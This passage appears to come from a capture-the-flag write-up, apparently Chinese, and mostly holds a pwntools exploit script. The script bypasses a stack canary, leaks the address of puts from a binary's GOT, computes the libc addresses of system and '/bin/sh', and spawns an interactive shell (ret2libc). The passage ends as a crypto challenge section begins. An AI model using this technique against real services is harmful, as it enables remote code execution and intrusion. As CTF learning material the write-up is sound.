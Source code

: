 ```
p.sendline('test')
p.recvuntil('Password: ')

payloadHead = 'a' * 30 + p32(canaryVal)
payloadHead += 'b'*(46-len(payloadHead))
#payload += p32(selfInputAddr) + p32(addNewAccAddr) + p32(bssAddr) + p32(8) 
#p.sendline(payload)
#p.send('/bin/sh\0')

payload1 = payloadHead + p32(putsPltAddr) + p32(addNewAccAddr) + p32(putsGotAddr) 
p.sendline(payload1)
p.recvuntil('--\n\n')
putsAddr = u32(p.recv(4))
print 'putsPltAddr = ' +  hex(putsPltAddr)
print 'putsGotAddr = ' +  hex(putsGotAddr)
print 'putsAddr = ' +  hex(putsAddr)

# calculating system() & '/bin/sh'
systemAddr = putsAddr - (libcELF.symbols['puts'] - libcELF.symbols['system'])
print 'systemAddr = ' + hex(systemAddr)
binshAddr = putsAddr - (libcELF.symbols['puts'] - next(libcELF.search('/bin/sh')))
print 'binshAddr = ' + hex(binshAddr)

p.recvuntil('Site: ')
p.sendline('test')
p.recvuntil('Username: ')
p.sendline('test')
p.recvuntil('Password: ')

payload2 = payloadHead + p32(systemAddr) + p32(addNewAccAddr) + p32(binshAddr) 
p.sendline(payload2)

p.interactive()

```

## CRYPTO200 - crypto2
题目附件是个pcap包,wireshark打开后